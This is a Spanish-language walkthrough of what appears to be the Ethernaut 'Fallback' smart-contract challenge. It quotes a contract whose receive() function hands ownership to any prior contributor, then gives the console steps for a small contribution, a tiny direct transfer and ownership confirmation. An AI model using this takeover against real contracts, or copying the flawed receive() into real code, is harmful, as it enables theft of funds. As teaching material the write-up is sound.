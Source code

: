# La importancia de una función fallback segura
Este contrato cuenta con un mecanismo de contribuciones y una función fallback que se ejecuta cuando el contrato recibe fondos sin haber pasado por una función del propio contrato.

El constructor establece una contribución de 1000 ETH para el propietario, y para clasificar como contribución, se debe enviar una cantidad mínima de 0.001 ETH.
El jugador debe aprovechar esta función fallback para transferir ETH desde el contrato a su cuenta.

El objetivo del jugador es aprovechar esta función fallback para transferir ETH desde el contrato a su cuenta.
```solidity
contract Fallback {
...
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
  ...
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
 ...
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
- Contrato Original: [Fallback](Fallback.sol)

---
## Conceptos
- La función fallback: En Solidity es una función especial que se ejecuta automáticamente cuando se envía una transacción a un contrato sin especificar una función en particular.
- Wei: Es la unidad más pequeña de Ethereum y representa la cantidad mínima divisible de ether.
---
### Conseguir el owner del contrato
Hay 2 formas de llegar al owner.

- (EXPECTED) Teniendo más contribuciones que el actual owner (1000 ETH) que se asignó en el constructor.

Tendremos que tener mas de 1000 ETH de contribuciones y por cada contribucion como maximo podemos enviar 0.001 ETH para llegar a superar al owner. (No merece la pena por la cantidad excesiva de transacciones)
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- (UNEXPECTED) Aprovechandonos de la funcion fallback vulnerable a escalar a owner
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
---

### Como ejecutamos la funcion fallback "receive()"?
Requisitos:
- El valor que se envie al contrato sea mayor a 0
- Las contribuciones del que cae en la funcion sea mayor a 0
```solidity
 require(msg.value > 0 && contributions[msg.sender] > 0);
 ```

Checkeamos cuantas contribuciones tenemos:
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0'
```

Para conseguir contribuciones tenemos que enviar MENOS de 0.001 ETH usando la funcion contribute()
```solidity
require(msg.value < 0.001 ether);
contributions[msg.sender] += msg.value;
```

1- Enviamos 0.0009 ETH que es menos de 0.001 ETH que es el maximo para realizar una contribucion.
```js
-> await contract.contribute.sendTransaction({ from: nuestrawallet, value: toWei('0.0009')})
<- {tx: '0xtx', receipt:...}
```
2- Comprobamos que hemos hecho una contribucion
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0.0009'
```

Ya tenemos el requisito de tener contribuciones mayor a 0 para que la funcion fallback se ejecute.
Para que se ejecute receive tenemos que enviar algo de ETH al contrato

```js
-> await sendTransaction({from: nuestrawallet, to: contract.address, value: toWei('0.0000001')})
<- '0xtx...'
```

Ya somos el owner dado a que hemos complido los requisitos de la funcion receive para que el valor owner sea el msg.sender.

```js
-> await contract.owner()
<- '0xnuestrawallet'
```
